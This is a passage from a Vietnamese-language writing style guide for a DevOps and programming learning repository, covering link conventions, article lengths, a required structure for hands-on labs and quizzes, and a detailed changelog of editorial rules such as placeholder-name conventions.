- **Internal** dùng relative path: `[Pod](../02_deployment.md)` thay vì absolute
- **External** mở tab mới (markdown render thường tự xử lý)
- **Tránh** link text "click here" / "ở đây" — link text phải mô tả đích đến

❌ "Đọc thêm [ở đây](url)"\
✅ "Đọc thêm [official K8s Pod docs](url)"

Chi tiết quy ước link → xem `05_linking-strategy.md`.

---

## 🔟 Length & độ dài

| Loại bài | Độ dài khuyến nghị | Ghi chú |
|---|---|---|
| Quick note (lessons basic) | 300-800 từ | Ngắn gọn, đủ 3 phần REQUIRED |
| Standard lesson | 1000-2500 từ | Đủ 8 phần |
| Deep dive (advanced) | 2500-5000 từ | Có nhiều diagram + ví dụ |
| Project step | 500-1500 từ/step | Chia thành nhiều file step |
| Recipe | 200-500 từ | Tập trung problem → solution |

**Nguyên tắc**: bài dài hơn 5000 từ → tách thành nhiều file. Người đọc cuộn dài dễ bỏ.

---

## 1️⃣1️⃣ Đặc tả cấu trúc bài thực hành thực chiến (Labs) & Trắc nghiệm tự đánh giá (Quizzes)

> [!IMPORTANT]
> **Quy tắc thiết kế bài tập:** Mọi bài tập nằm trong thư mục `exercises/` của các mô-đun kiến thức L2 phải tuân thủ nghiêm ngặt hai bộ khung cấu trúc dưới đây để đảm bảo tính an toàn cho máy tính người học (Do No Harm), tính trực quan sinh động và đo lường được kết quả.

### 🧪 11.1 Cấu trúc bắt buộc của Bài thực hành (Labs)

Mọi bài Lab thực hành gõ lệnh trên Terminal bắt buộc phải tuân thủ bộ khung 7 phần sau đây để tránh bừa bãi hệ điều hành của người học và hướng dẫn họ tự tin sửa lỗi:

1. **📋 Metadata (Bắt buộc):** Giống bài học lý thuyết nhưng có thêm trường `Độ khó: ⭐ | ⭐⭐ | ⭐⭐⭐`.
2. **🎯 Mục tiêu của bài Lab (Bắt buộc):** Trình bày rõ ràng sau khi hoàn thành bài Lab, người học sẽ tự tay xây dựng được sản phẩm/tính năng gì thực tế.
3. **🔍 Kiểm tra môi trường (Environment Check) (BẮT BUỘC):** Đặt ngay đầu bài thực hành. Là một bảng Markdown so sánh cụ thể:
   - *Cột 1:* Công cụ cần kiểm tra
   - *Cột 2:* Câu lệnh kiểm tra (`git --version`, `docker --version`, ...)
   - *Cột 3:* Kết quả mong đợi hiển thị trên màn hình.
   *Mục đích:* Tránh việc người học gõ lệnh bị lỗi do thiếu công cụ hoặc sai cấu hình ban đầu.
4. **🛠️ Từng bước thực hành chi tiết (Bắt buộc):** 
   - Đánh số rõ ràng từng bước (`Bước 1: ...`, `Bước 2: ...`).
   - Cung cấp các lệnh có thể copy-paste chạy ngay.
   - Bắt buộc hiển thị **Output mẫu** của Terminal sau khi chạy lệnh.
   - **Bắt buộc có 2-3 câu giải thích chi tiết** ngay dưới Output mẫu để phân tích ý nghĩa các dòng trạng thái quan trọng (màu sắc, cột STATUS, READY...).
5. **✅ Tiêu chí hoàn thành bài Lab (Exit Criteria) (BẮT BUỘC):** 
   - Hướng dẫn người học tự kiểm tra/chạy lệnh kiểm chứng để biết chắc chắn mình đã làm đúng (ví dụ: gõ `git status` phải báo `working tree clean`).
6. **🧹 Dọn dẹp tài nguyên (Cleanup) (BẮT BUỘC):** 
   - Cung cấp các câu lệnh dọn dẹp sạch sẽ tài nguyên tạm, file rác đã tạo trong quá trình học trên Desktop hoặc ổ cứng (`rm -rf <folder>`, `docker rm -f`, ...). 
   - *Phương châm:* "Do No Harm" — không để lại tàn dư rác máy tính sau khi người học tắt máy.
7. **🔗 Liên kết & Điều hướng (Bắt buộc):** Điều hướng tới bài học tiếp theo hoặc trở lại README chính của mô-đun qua relative path.

---

### 🧠 11.2 Cấu trúc bắt buộc của Trắc nghiệm tự đánh giá (Quizzes)

Đối với các bài Quiz tự đánh giá lý thuyết và tư duy bản chất công cụ, không yêu cầu gõ lệnh thực hành trên máy chủ, cấu trúc bắt buộc như sau:

1. **📋 Metadata (Bắt buộc):** Tác giả, Phiên bản, Độ khó, Mục tiêu ôn tập.
2. **🎯 Hướng dẫn làm bài (Bắt buộc):** Lời nhắc khích lệ người học tự suy nghĩ trước khi xem đáp án.
3. **🧠 Các câu hỏi tình huống tự đánh giá (Bắt buộc):**
   - Đặt câu hỏi dưới dạng các tình huống thực tế hoặc so sánh bản chất (ví dụ: *"Tại sao dùng Staging Area thay vì commit trực tiếp?"*).
   - Đáp án và giải thích chuyên sâu **bắt buộc phải ẩn hoàn toàn** bên trong thẻ `<details>` và `<summary>`:
     ```markdown
     <details>
     <summary>💡 Xem giải thích</summary>

     [Nội dung giải thích sâu sắc, sử dụng ẩn dụ sư phạm dễ hiểu]

     </details>
     ```
4. **🔗 Liên kết học tập tiếp theo (Bắt buộc):** Trỏ về bài học lý thuyết hoặc bài thực hành Lab kế tiếp.

---

## 🔚 Tổng kết

| Nguyên tắc cốt lõi | Phương châm |
|---|---|
| 1. Bài có câu dẫn liền mạch | "Đọc 1 mạch không vấp" |
| 2. Hands-on copy-paste được | "Không bỏ bước" |
| 3. Diagram khi có thể | "Hình hơn nghìn chữ" |
| 4. Beginner-friendly | "Giả định người đọc không biết gì" |
| 5. Đầy đủ glossary | "Thuật ngữ EN luôn có giải nghĩa" |
| 6. Emoji nhất quán | "Cùng emoji = cùng vai trò" |
| 7. Không sáo rỗng | "Đi thẳng vào nội dung" |

---

## 📌 Nhật ký thay đổi (Changelog)

> ⚠️ **Quy ước changelog của repo này**: sắp xếp **tăng dần** (cũ → mới), bản đầu tiên `v0.1.0` trên cùng, bản mới nhất dưới cùng. Quy ước này **override** global skill `naming/metadata-headers.md` (global mặc định là reverse-chronological — mới nhất trên cùng). Toàn bộ file trong repo `dev-knowledge` dùng thứ tự tăng dần để đọc lịch sử tiến hoá từ trên xuống như đọc truyện.

- **v0.1.0 (15/05/2026)** — Bản đầu tiên.
- **v0.2.0 (15/05/2026)** — Apply 2 recommendations:
  - §2.1: thêm field `Tags` trong metadata với tag `[MUST-KNOW]` — đánh dấu bài bắt buộc trong roadmap tương ứng
  - §2.3: chính thức hóa framework **WHY → WHAT → HOW** (high-level cho toàn bài) + flow 4 bước (low-level cho mỗi section). Thêm ví dụ mapping cụ thể
- **v0.3.0 (15/05/2026)** — Apply 5 fixes sau dogfood:
  - §1: làm rõ khung 8 phần **chỉ áp dụng cho `lessons/`** — exercise/recipe/project có template riêng (thêm bảng đối chiếu)
  - §2.2: làm rõ "1 câu dẫn duy nhất" (tránh 2 block quote chồng chéo) + độ dài 1-2 câu
  - §2.2bis: thêm bảng quy ước đánh số H2 — chỉ Nội dung chính có 1️⃣ 2️⃣ 3️⃣, các phần khung khác không số
  - §2.8: thêm bảng "khi nào skip Liên kết" — bỏ khi không có gì đáng link, không vì kho chưa có content
- **v0.4.0 (16/05/2026)** — Apply 1 fix sau khi review reports `_Ref/`:
  - §2.3: thêm **quy tắc ẩn dụ (metaphor) bắt buộc** trong WHAT section — kèm bảng 8 ví dụ metaphor (Pod, Service, Container, ...) + format viết. Bài thiếu metaphor ở WHAT → fail quality. Skip được nếu concept quá đơn giản (vd `git status`).
- **v0.5.0 (19/05/2026)** — **Đổi nguyên tắc lớn**: WHY/WHAT/HOW từ "tiêu đề bắt buộc" → "tiêu chí đánh giá nội dung". Header nội dung chính dùng **câu hỏi tự nhiên** ("Vậy K8s là gì?", "Nó làm được gì?") thay vì khuôn `1️⃣ Vì sao cần X (WHY)`. Thêm §2.3 khung 3 kiểu mở bài (tình huống / câu hỏi gợi mở / so sánh) + cấm mở bằng định nghĩa khô. Update §2.2bis với mẫu H2 tự nhiên + ví dụ Pod redesign.
- **v0.5.1 (19/05/2026)** — Siết lại §2.3: khẳng định **bố cục KHÔNG ràng buộc**, tiêu chí duy nhất là bài có giải đáp WHY/WHAT/HOW questions không — cách thể hiện tuỳ bản chất bài. Thêm §2.3 "Định nghĩa kiểu trả lời tình huống" — quy tắc 4 bước (tình huống → "X ra đời giải quyết..." → ẩn dụ → định nghĩa kỹ thuật). Định nghĩa khô không bị cấm tuyệt đối, chỉ cấm đứng cô đơn ở đầu bài.
- **v0.5.2 (24/05/2026)** — Thêm §3.5 "Nhân vật và tên riêng — KHÔNG tự bịa". Lý do: đã tự tạo nhân vật fictional "Long"/"Mai" + brand "longshop" xuyên suốt 24 lesson DevOps (May 2026) mà không có document chính thức trong Blueprint, khiến reader confused ("Long là ai?"). Đã phải bulk-replace 95+ files qua 3 pass. Rule mới: dùng `"bạn"`/`"sếp"`/`"đồng nghiệp"`/`"team"` generic; nếu cần character riêng → phải document trong Blueprint trước. Brand placeholder thống nhất: `"Acme Shop"`/`"acmeshop.vn"`.
- **v0.5.3 (24/05/2026)** — Thêm §3.6 "Anti-pattern: Header → Code ngay (CẤM)" + §3.7 "Vietnamese-first principle". Lý do: audit 60 bài viết phiên 24/05 phát hiện pattern lặp đi lặp lại: header → code block ngay không lead-in, bảng EN-only không Việt hoá, comments code English-heavy. Rule cũ §2.3 đã ngầm yêu cầu "câu dẫn liền mạch" nhưng không siết đủ chặt — bổ sung anti-pattern cụ thể + Vietnamese-first principle để rõ ràng hơn. Reader zero-base Việt là priority #1 của repo.
- **v0.5.4 (24/05/2026)** — Mining __Ref__ folder để tìm pattern viết tốt cho zero-base reader. Thêm 5 rule mới:
  - §3.8 "Comments code đánh số bước (`# 1.`, `# 2.`, `# 3.`)" — học từ `07_web/backend/__Ref__/caching/01-caching-strategies.md`
  - §3.9 "Mở bài bằng vấn đề thực tế relatable" với 3 pattern (Bạn đã bao giờ gặp, Tình huống đời thường, Câu chuyện sự cố) — học từ `01_foundations/__Ref__/cs/05-character-encoding-fundamentals.md` + `programming/03-async-programming-fundamentals.md`
  - §3.10 "Ẩn dụ liên tục — không chỉ 1 lần ở định nghĩa" với ví dụ K8s chung cư xuyên 4 concept — học từ `kubernetes/__Ref__/K8s/`
  - §3.11 "✅❌ format cho so sánh — Anti-pattern vs Pattern" — học từ `kubernetes/__Ref__/K8s/13_Imperative-vs-Declarative.md`
  - §3.12 "Bảng trade-off thay paragraph tường thuật" — học từ `01_foundations/__Ref__/cs/01-how-computers-work-fundamentals.md`
  - Mục đích: siết chuẩn cho zero-base reader (người chưa biết gì) — repo priority #1.
- **v0.5.5 (24/05/2026)** — Mở rộng §3.5: cấm dùng tên riêng (`rom`, `long`, `mai`, ...) kể cả lowercase trong username/hostname ví dụ shell/Linux. Dùng generic: `user`, `admin`, `dev`, `deploy`, `app`. Lý do: residue fictional character "Long" trước đây bulk-fix sang lowercase `long`, sau đó tôi đổi sang `rom` — vẫn là tên riêng. User feedback: dùng generic role để đảm bảo bài tiếp cận zero-base + không lệ thuộc tên cá nhân.
- **v0.5.6 (24/05/2026)** — **Sweep hoàn tất** residue fictional names theo §3.5 v0.5.5. Tổng cộng 7 pass bulk-fix:
  - Pass 1 (fix-username-generic): 12 files, 93 subs (`/Users/rom/`, `chown rom`, `rom@laptop` → generic)
  - Pass 2 (fix-username-pass2): 11 files, 29 subs (residual narrative paths, ls -l output)
  - Pass 3 (fix-username-pass3): 4 files, 29 subs ("Rom"/"Lan"/"Hoa" Python f-strings → Alice/Bob/Charlie)
  - SQL fix: 6 files, 144 subs (Mai/Hùng/Lan/Bình/Châu/Đức → Alice/Bob/Charlie/David/Eve/Frank/Grace)
  - Mai tools fix: 5 files, 21 subs (git-clients github.md, github-desktop.md, text-processing)
  - Final cleanup: 5 files, 22 subs (Python tuples/dicts, React JSX `<Greeting name="Mai" />`)
  - Python Rom aggressive: 4 files, 29 subs (whole-word Rom in code samples)
  - Plus manual rewrites: git remote-and-github.md (Mai story arc → đồng nghiệp), 2 Docker lessons, OAuth JWT example
  - **Total: 367+ replacements across 47+ files**. Grep verified 0 fictional names remain (Mai/Hùng/Lan/Hoa/Bình/Hung/Rom/Long all clear in non-changelog content). Code placeholders standardized to Alice/Bob/Charlie/David/Eve/Frank/Grace international convention.
- **v0.5.7 (24/05/2026)** — **Siết chặt §3.5**: cấm DÙNG TẤT CẢ TÊN RIÊNG — bất kể ngôn ngữ. Alice/Bob/Charlie/David/Eve/Frank/Grace **VẪN LÀ tên riêng** (tiếng Anh) → vi phạm rule. User feedback (lúc đó): *"không nên dùng tên riêng bất cứ tiếng gì... bạn A bạn B Nguyen Van A Le Van B Tran Van C kiểu vậy"*. Quy chuẩn placeholder chính thức:
  - **Dạng dài (code sample)**: `Nguyen Van A` / `Le Van B` / `Tran Van C` / `Pham Van D` / `Hoang Van E` / `Vu Van F` / `Bui Van G` (7 họ phổ biến VN + A-G, không dấu để code-safe)
  - **Dạng ngắn (narrative)**: `bạn A` / `bạn B` / `bạn C` / ...
  - Tương đương "John Doe" quốc tế — reader Việt nhận ra ngay là placeholder.
  - Áp dụng cho mọi SQL INSERT data, Python dict, JSON, React props, ví dụ multi-user.
  - Bulk-fix Alice→Nguyen Van A, Bob→Le Van B, ... đang được apply.
- **v0.5.8 (25/05/2026)** — **Soften §3.5**: đổi từ "CẤM" → "**hạn chế, không ép**". User feedback: *"các ví dụ bạn muốn đưa data sao cũng được, miễn sao hạn chế tên riêng là được. Hạn chế, chứ không ép không dùng nhé."* Quy tắc cập nhật:
  - Title: "Nhân vật và tên riêng — **Hạn chế, không ép**" (thay vì "KHÔNG tự bịa").
  - Bảng so sánh: `✅ Default` / `⚠️ Hạn chế` (thay vì `✅ Dùng` / `❌ Tránh`) — phản ánh "hạn chế" không "cấm".
  - Placeholder `Nguyen Van A`/`Le Van B`/`Tran Van C`/... vẫn là **default ưu tiên** cho code sample multi-row.
  - **Cho phép linh hoạt**: ví dụ ngắn 1-2 lần với tên riêng (`name = "Alice"`) OK nếu không lạm dụng cross-lesson. Cryptography convention ("Alice ↔ Bob") giữ nguyên không Việt hoá ép. Story arc xuyên cluster vẫn tránh fictional character.
  - Bảng "Áp dụng" thêm cột "✅ Preferred" / "⚠️ Hạn chế" với ghi chú cụ thể "(OK ngắn nhưng đừng lạm dụng)" thay vì cấm hoàn toàn.
  - **KHÔNG bulk-revert** các fix Alice→Nguyen Van A đã chạy (placeholder VN vẫn là default). Chỉ soften principle để tránh ép linh hoạt khi đáng ra cần.
- **v0.6.0 (26/05/2026)** — **Thêm §11**: Đặc tả cấu trúc bắt buộc cho bài thực hành (Labs) với Environment Check/Cleanup và Trắc nghiệm tự đánh giá (Quizzes) với details tag giải thích sâu từ di sản `__Ref__`.
- **v0.7.0 (01/06/2026)** — **Đồng bộ governance toàn repo** (3 quyết định đã duyệt + alignment quy ước nền). Lý do: file self-desync version (header v0.5.8 vs changelog đầu list v0.6.0) + cần thống nhất chuẩn trình bày toàn repo:
  - **Đồng bộ version**: header bump v0.5.8 → **v0.7.0** khớp với changelog (sửa self-desync).
  - **(A) Changelog tăng dần**: đảo toàn bộ list cũ → mới (v0.1.0 trên cùng, v0.7.0 dưới cùng). Đổi heading `## 📌 Changelog` → `## 📌 Nhật ký thay đổi (Changelog)`. Thêm note **override** global skill `naming/metadata-headers.md` (global = reverse-chronological).
  - **(B) Việt hoá heading kỹ thuật + giữ EN trong ngoặc**: §1 + §2.2bis bảng spec đổi `Self-check` → `Tự kiểm tra (Self-check)`, `Cheatsheet` → `Tra cứu nhanh (Cheatsheet)`, `Pitfall & Best practice` → `Cạm bẫy thường gặp & Best practice` (`### ❌ Pitfall:` → `### ❌ Cạm bẫy:`, giữ `### ✅ Best practice:`), `Glossary` → `Từ Điển Thuật Ngữ (Glossary)`. §2.4–2.7 đổi heading section tương ứng.
  - **(B) §2.1**: field `Prerequisites` → `Yêu cầu trước` (khung mẫu + bảng field). §1: tiêu chí OPTIONAL bỏ mốc thời gian đọc (">10 phút"/"<5 phút") → đổi sang số concept/số từ (≥ 3 concept / > 1000 từ; quick note ~1 concept / < 800 từ).
  - **(C) Bỏ hết ước tính thời gian**: §11.1 metadata Lab bỏ trường `Thời gian ước tính: ~X phút làm bài`. Không còn con số thời gian ước tính nào trong file.
  - **(Quy ước nền) §2.8**: thay block Liên kết bằng **3 sub-section cố định** (🧭 Định hướng lộ trình học / 🧩 Các chủ đề có thể bạn quan tâm / 🌐 Tài nguyên tham khảo khác) + nav bullet `⬅️ Bài trước` / `➡️ Bài tiếp theo` / `↑ Về cụm`. Quy tắc cứng: link text = tiêu đề thật, KHÔNG dùng tên file.
  - **(Quy ước nền) Thêm §3.15 De-meta**: định nghĩa vùng cấm meta-leak cho file học (ngôn ngữ/đối tượng/phương pháp/khung-template/link `_blueprint`-`__Ref__`-`templates`/nhắc "Mr.Rom" trong thân bài-code-summary). Phân biệt rõ AUTHOR-FACING (`_blueprint/0X_*.md`) được bàn phương pháp vs READER-FACING phải sạch.
  - **(De-meta) §11.2**: `<summary>💡 Xem giải thích của Mr.Rom</summary>` → `<summary>💡 Xem giải thích</summary>`; "giải thích chuyên sâu của `Mr.Rom`" → bỏ "của Mr.Rom".
